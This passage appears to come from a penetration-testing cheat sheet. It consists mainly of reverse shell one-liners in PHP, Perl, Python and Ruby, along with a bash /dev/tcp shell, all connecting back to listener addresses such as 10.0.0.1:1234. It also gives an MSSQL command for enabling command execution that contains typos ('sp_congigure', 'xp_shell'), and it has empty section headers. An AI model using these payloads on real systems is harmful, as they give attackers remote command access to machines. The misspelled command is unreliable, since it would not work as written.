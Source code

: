 #### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`


### Jenkins

##

# Post Exploitation

## Reverse Shell


### PHP Reverse Shell

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Tiny Reverse Shell

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.36.167/1337 0>&1'");
```

### Perl Reverse Shell

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

### Python Reverse Shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Ruby Reverse Shell

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Bash Reverse Shell
